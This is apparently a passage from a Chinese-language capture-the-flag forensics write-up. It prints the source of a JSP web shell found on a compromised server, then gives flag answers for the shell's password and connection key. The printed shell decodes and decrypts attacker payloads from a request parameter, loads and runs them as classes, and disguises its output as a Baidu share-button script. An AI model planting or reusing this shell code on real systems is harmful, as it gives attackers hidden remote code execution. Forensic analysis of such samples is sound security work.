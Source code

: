 ```java
            try {
                base64 = Class.forName("java.util.Base64");
                decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(decoder, new Object[]{bytes});
            } catch (Exception e) {
                try {
                    base64 = Class.forName("sun.misc.BASE64Decoder");
                    decoder = base64.newInstance();
                    value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{new String(bytes)});
                } catch (Exception e2) {
                }
            }
            return value;
        }%><%try { byte[] data = base64Decode(request.getParameter(pass).getBytes()); data = base64Decode(data); data = x(data, false); if (session.getAttribute("payload") == null) { session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data)); } else { request.setAttribute("parameters", data); java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream(); Object f = ((Class) session.getAttribute("payload")).newInstance(); f.equals(arrOut); f.equals(pageContext); String left = md5.substring(0, 5).toLowerCase(); String replacedString = "var Rebdsek_config=".replace("bdsek", left); response.setContentType("text/html"); response.getWriter().write("<!DOCTYPE html>"); response.getWriter().write("<html lang=\"en\">"); response.getWriter().write("<head>"); response.getWriter().write("<meta charset=\"UTF-8\">"); response.getWriter().write("<title>{title}</title>"); response.getWriter().write("</head>"); response.getWriter().write("<body>"); response.getWriter().write("<script>"); response.getWriter().write("<!-- Baidu Button BEGIN"); response.getWriter().write("<script type=\"text/javascript\"id=\"bdshare_js\"data=\"type=slide&amp;img=8&amp;pos=right&amp;uid=6537022\"></script>"); response.getWriter().write("<script type=\"text/javascript\"id=\"bdshell_js\"></script>"); response.getWriter().write("<script type=\"text/javascript\">"); response.getWriter().write(replacedString); f.toString(); response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true))); response.getWriter().write(";"); response.getWriter().write("document.getElementById(\"bdshell_js\").src = \"http://bdimg.share.baidu.com/static/js/shell_v2.js?cdnversion=\"+ Math.ceil(new Date()/3600000);"); response.getWriter().write("</script>"); response.getWriter().write("-->"); response.getWriter().write("</script>"); response.getWriter().write("</body>"); response.getWriter().write("</html>"); } } catch (Exception e) {}
%>
```

即可得到答案

```flag
flag{mypass}
```

## 3

> 黑客上传的木马连接密钥是什么？

上一题中就有

```flag
flag{9adbe0b3033881f8}
```
